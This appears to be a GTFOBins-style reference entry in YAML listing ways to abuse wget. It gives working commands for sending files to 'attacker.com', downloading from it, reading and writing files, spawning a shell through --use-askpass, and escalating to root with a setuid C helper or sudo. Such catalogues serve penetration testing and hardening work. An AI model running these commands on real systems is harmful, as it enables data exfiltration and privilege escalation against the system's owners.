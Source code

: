 ```yaml
---
functions:
  file-upload:
    - description: Send local file with an HTTP POST request. Run an HTTP service on the attacker box to collect the file. Note that the file will be sent as-is, instruct the service to not URL-decode the body. Use `--post-data` to send hard-coded data.
      code: |
        URL=http://attacker.com/
        LFILE=file_to_send
        wget --post-file=$LFILE $URL
  file-read:
    - description: The file to be read is treated as a list of URLs, one per line, which are actually fetched by `wget`. The content appears, somewhat modified, as error messages, thus this is not suitable to read arbitrary binary data.
      code: |
        LFILE=file_to_read
        wget -i $LFILE
  file-write:
    - description: The data to be written is treated as a list of URLs, one per line, which are actually fetched by `wget`. The data is written, somewhat modified, as error messages, thus this is not suitable to write arbitrary binary data.
      code: |
        LFILE=file_to_write
        TF=$(mktemp)
        echo DATA > $TF
        wget -i $TF -o $LFILE
  file-download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        URL=http://attacker.com/file_to_get
        LFILE=file_to_save
        wget $URL -O $LFILE
  shell:
    - code: |
        TF=$(mktemp)
        echo -e '#!/bin/sh\nsh 1>&0 2>&0' > $TF
        chmod +x $TF
        wget -v --use-askpass=$TF 0
  suid:
    - code: |
        TF1=$(mktemp --suffix .c)
        cat << EOI > $TF1
        #include <stdio.h>
        #include <sys/types.h>
        #include <unistd.h>
        int main() {
          setuid(0);
          setgid(0);
          system("/bin/sh 1>&0 2>&0");
        }
        EOI
        TF2=$(mktemp)
        gcc -o $TF2 $TF1
        wget --use-askpass=$TF2 0
  sudo:
    - code: |
        TF=$(mktemp)
        echo -e '#!/bin/sh\nsh 1>&0 2>&0' > $TF
        chmod +x $TF
        sudo wget -v --use-askpass=$TF 0
---
```

